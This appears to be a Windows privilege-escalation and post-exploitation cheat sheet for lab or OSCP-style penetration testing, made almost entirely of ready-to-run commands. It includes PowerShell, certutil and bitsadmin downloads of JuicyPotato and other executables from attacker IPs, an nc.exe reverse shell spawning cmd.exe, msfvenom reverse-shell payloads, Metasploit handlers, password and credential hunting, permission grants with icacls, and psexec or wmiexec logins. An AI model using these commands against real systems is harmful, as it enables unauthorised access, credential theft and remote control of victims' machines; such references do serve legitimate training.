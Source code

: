# Downloading Files
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.41:8000/JuicyPotato.exe','C:/Users/kohsuke/Desktop/JuicyPotato.exe')"

powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.10.14:7898/file.exe', 'file.exe')"

powershell -c '(Invoke-RestMethod -Uri "http://10.10.14.3:8000/JuicyPotato.exe" -Method Get -OutFile "jp.exe")'

powershell -c "Invoke-WebRequest -Uri 'http://10.10.10.14:7898/file.exe' -OutFile 'file.exe'"

powershell -c "$url = 'http://10.10.10.14:7898/file.exe'; $stream = [System.IO.StreamReader]::new($url); $content = $stream.ReadToEnd(); Set-Content -Path 'file.exe' -Value $content -Encoding Byte"

powershell -c "$client = New-Object Net.WebClient; $client.DownloadFile('http://10.10.10.14:7898/file.exe', 'file.exe')"

powershell -c "$url = 'http://10.10.10.14:7898/file.exe'; $request = [System.Net.HttpWebRequest]::Create($url); $response = $request.GetResponse(); $stream = $response.GetResponseStream(); $output = [System.IO.File]::Create('file.exe'); $stream.CopyTo($output); $output.Close(); $response.Close()"

certutil -urlcache -f http://YOUR_IP:PORT/filename.exe renamed.exe

bitsadmin /transfer myDownload /priority normal http://10.10.14.3:8000/JuicyPotato.exe jp.exe

nc

curl

wget

scp

echo c:\Users\kohsuke\Desktop\nc.exe 10.10.14.41 4455 -e cmd.exe > reverse.bat
```

# Metasploit Windows Reverse Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4567 -f aspx > letmein.aspx 

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

```
# Manual Windows Reverse Shell
```
python3 -m http.server

#to get reverse shell from your kali
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4567 -f aspx > letmein.aspx 

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4567 

cd C:\Windows\Temp
certutil -urlcache -f http://YOUR_IP:PORT/filename.exe renamed.exe
```
# Metasploit Windows suggester
```
background

use post/multi/recon/local_exploit_suggester

run SESSION=1
```


# Windows System Enumeration 
```
systeminfo

#32bit ? 64bit ? 68bit ?
wmic os get osarchitecture

systeminfo | findstr /b /c:"OS Name" /c:"OS Version" /c:"System Type"

wmic qfe

wmic qfe Caption,Description,HotFixID,InstalledOn

wmic logicaldisk

wmic logicaldisk get caption,description,providername

wmic logicaldisk get caption
```

# Windows User Enumeration 
```
whoami

whoami /priv

whoami /groups

net user

net user jack

net localgroup

net localgroup administrators
```

# Windows Network Enumeration 
```
ipconfig

ipconfig /all

#Check Incoming / Outgoing Network Traffic
arp -a

#Check route table
route print

#Check open ports
netstat -ano
```

# Windows Password Hunting
```
#find 'password' in current directory with extension of txt,ini and config
findstr /si password *.txt *.ini *.config

#find 'password' in whole C: directory
dir /s C:\* | findstr /i "password"

dir /r aka ls -la

#Finding credential location
cmdkey /list

runas /usr:ACCESS\Administrator /savecred cmd /c 
```

# AV Enumeration
```
#Check Window Defender is up or down
sc query windefend

#Check running services
sc queryx type= service

#Check FireWall Status
netsh advfirewall firewall dump
netsh firewall show state 

#Check FireWall configuration
netsh firewall show config
```

# Read Permissions
```
#possible if user is also admin
icacls C:\Users\Administrator\Desktop\root.txt /grant username:F

icacls C:\Windows\System32\net.exe /grant username:username:F

"F" for Full control, "M" for Modify, "R" for Read, "W" for Write, "X" for Execute

```
# Finding exe files
```
where /R c:\windows bash.exe
where /R c:\windows wsl.exe
```

# Login methods
```
 psexec.py administrator:'password'@MACHINE_IP
 
 smbexec.py administrator:'password'@MACHINE_IP
 
 wmiexec.py administrator:'password'@MACHINE_IP
```

# References

https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation

https://github.com/SecWiki/windows-kernel-exploits

